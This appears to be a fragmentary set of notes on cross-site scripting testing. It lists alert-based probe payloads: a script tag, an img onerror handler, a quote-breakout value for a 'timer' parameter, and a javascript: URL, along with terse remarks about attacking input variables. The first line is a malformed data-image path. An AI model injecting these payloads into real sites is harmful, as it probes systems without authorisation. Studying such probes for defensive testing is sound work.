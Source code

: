 <script>alert('ndajsndlsad')</script>
via:
<img src ="skdlskd.jpg" onerror='alert("dfsdfdsf")'
NO onclick on HTML 
attack the variables!!! put some input
timer=');alert('

javascript:alert('xss')
